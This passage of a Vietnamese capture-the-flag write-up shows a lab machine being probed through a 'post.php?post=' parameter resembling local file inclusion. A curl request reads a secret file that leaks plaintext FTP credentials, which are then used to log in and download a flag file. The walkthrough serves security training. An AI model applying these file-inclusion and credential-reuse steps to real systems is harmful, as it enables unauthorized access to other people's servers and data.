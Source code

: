 
Ở phần trên có thể thấy path `post.php?post=` khá giống với lỗ hổng [LFI](https://swisskyrepo.github.io/PayloadsAllTheThings/File%20Inclusion/#basic-lfi)

Tôi sẽ thử mở file trên bằng cách này

```python
┌──(root㉿kali)-[/home/kali]
└─# curl http://10.10.80.186/post.php?post=secret_file_do_not_read.txt
<!doctype html>
<html lang="en">

...

<main role="main">

<div class="row">
 <div class="col-2"></div>
 <div class="col-8">
  Hi Mat,

The credentials for the FTP server are below. I've set the files to be saved to /home/ftpuser/ftp/files.

Will

----------

ftpuser:givemefiles777
 </div>
</div>

</main>
```

Truy cập ftp với port 21 

```python
┌──(root㉿kali)-[/home/kali]
└─# ftp 10.10.80.186
Connected to 10.10.80.186.
220 (vsFTPd 3.0.3)
Name (10.10.80.186:kali): ftpuser
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
229 Entering Extended Passive Mode (|||45370|)
150 Here comes the directory listing.
drwxr-xr-x    2 1001     1001         4096 Dec 03  2020 files
-rw-r--r--    1 0        0              21 Dec 03  2020 flag_2.txt
226 Directory send OK.
ftp> get flag_2.txt /home/kali/flag2.txt
local: /home/kali/flag2.txt remote: flag_2.txt
229 Entering Extended Passive Mode (|||40425|)
150 Opening BINARY mode data connection for flag_2.txt (21 bytes).
100% |****************************************************************************************************************************************************************************************************************|    21       19.38 KiB/s    00:00 ETA
226 Transfer complete.
21 bytes received in 00:00 (0.09 KiB/s)
```
